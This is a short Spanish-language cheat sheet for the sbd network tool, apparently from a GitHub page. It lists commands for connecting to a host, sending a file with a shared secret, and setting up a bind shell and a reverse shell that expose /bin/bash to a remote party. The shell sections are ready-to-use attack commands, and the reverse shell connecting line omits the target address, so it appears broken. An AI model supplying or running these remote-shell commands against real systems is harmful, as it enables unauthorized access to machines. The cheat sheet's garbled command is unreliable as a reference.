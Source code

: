 # sbd Cheat Sheet

#### Conectarnos a un puerto de un host

- `sbd <IP-ADDRESS> <PORT>`: Conexión a un host.

#### Transferir un archivo

- `sbd -lp <PORT> -k secret > output.txt`: Host a recibir el archivo en el puerto especificado.

- `cat input.txt | sbd -k secret <IP-ADDRESS> <PORT>`: Host que envia el archivo.

#### Bind Shell (Linux)

- `sbd -nvlp <PORT> -e /bin/bash`: Escuchando la conexión.

- `sbd <IP-ADDRESS> <PORT>`: Conexión a la shell.

#### Reverse Shell (Linux)

- `sbd -nvlp <PORT>`: Escuchando la conexión.

- `sbd -nv <PORT> -e /bin/bash`: Conexión al host y mandamos la shell.
